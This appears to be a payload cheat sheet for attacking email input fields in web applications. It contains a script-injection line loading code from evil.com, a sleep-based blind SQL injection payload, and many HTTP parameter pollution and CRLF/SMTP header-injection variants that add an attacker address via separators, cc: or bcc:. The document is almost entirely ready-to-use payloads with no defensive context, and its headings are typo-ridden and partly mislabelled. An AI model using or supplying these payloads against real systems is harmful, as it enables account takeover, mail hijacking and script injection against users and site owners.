 
## Blind SQLi 
```
"'--><script/src=//evil.com></script>"@example.com
"'-sleep(5)-'"@mail.local
```

## Comma saperator with HPP chain

```
{"email":"Victim@gmail.com,Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com,Attacker@gmail.com"}
```

## Semiclon saperator with HPP chain
```
{"email":"Victim@gmail.com;Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com;Attacker@gmail.com"}
```

## Space saperator with HPP chain
```
{"email":"Victim@gmail.com%20Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com%20Attacker@gmail.com"}
```

## Carbon Copy (CC:) with HPP chain
```
{"email":"Victim@mail.com%0Acc:Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com%0Acc:Attacker@mail.com"}
```

## Blind Carbon Copy (BCC:) with HPP chain
```
{"email": "Victim@mail.com%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com%0Abcc:Attacker@mail.com"}
```

## Parameter Pollution
```
email=victim@gmail.com&email=attacker@gmail.com
```

## CRLF and SMTP Inejciton
```
email=victim@gmail.com%0a%0dcc:attacker@gmail.com
```

{"email":["victim@gmail.com","attacker@gmail.com"]}

#Using Seperators
email=victim@gmail.com,attacker@gmail.com
email=victim@gmail.com|attacker@gmail.com
email=victim@gmail.com%20attacker@gmail.com
